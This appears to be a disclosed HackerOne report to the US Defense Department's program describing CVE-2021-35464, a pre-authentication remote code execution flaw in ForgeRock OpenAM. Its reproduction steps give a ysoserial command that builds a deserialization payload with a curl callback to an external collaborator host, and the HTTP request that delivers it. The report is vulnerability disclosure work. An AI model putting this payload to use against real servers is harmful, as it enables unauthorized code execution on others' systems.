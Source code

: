 # Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464)

## Report Details
- **Report ID**: 1248052
- **URL**: https://hackerone.com/reports/1248052
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-06-30T09:11:23.834Z
- **Disclosed**: 2023-12-21T17:45:26.080Z

## Reporter
- **Username**: fdeleite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
RCE is possible thanks to unsafe Java deserialization in the Jato framework used by OpenAM.


### Supporting Material/References
- https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464

## Impact

An unauthenticated, 3rd-party attacker or adversary can execute remote code

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2021-35464

## Steps to Reproduce
## Steps To Reproduce

Target domain: ████

First we need to build the payload:
1. Download this jar file 
``wget https://github.com/Bin4xin/sweet-ysoserial/blob/master/target/ysoserial-0.0.6-SNAPSHOT-all.jar``

then 
``java -jar ysoserial-master-SNAPSHOT.jar Click1 "curl https://g0h7qcjzwzpzdh2ar6b5f9x3puvkj9.burpcollaborator.net" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '=' | tr -d '\n' > payload.txt`` 

You need to change the burp Collaborator id to test it properly. 

The payload is now saved in the payload.txt file. 

Now we need to use the following request:

```
GET /openam/ccversion/Version?jato.pageSession=XYZ HTTP/1.1
Host: 127.0.0.1
```
Replace **XYZ** by the payload saved into the payload.txt file. 

The response

```
HTTP/1.1 302 Found
Cache-Control: private
Location: https://127.0.0.1:443/openam/base/AMInvalidURL
Content-Length: 0
```
The HTTP Request sent the collaborator :

██████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
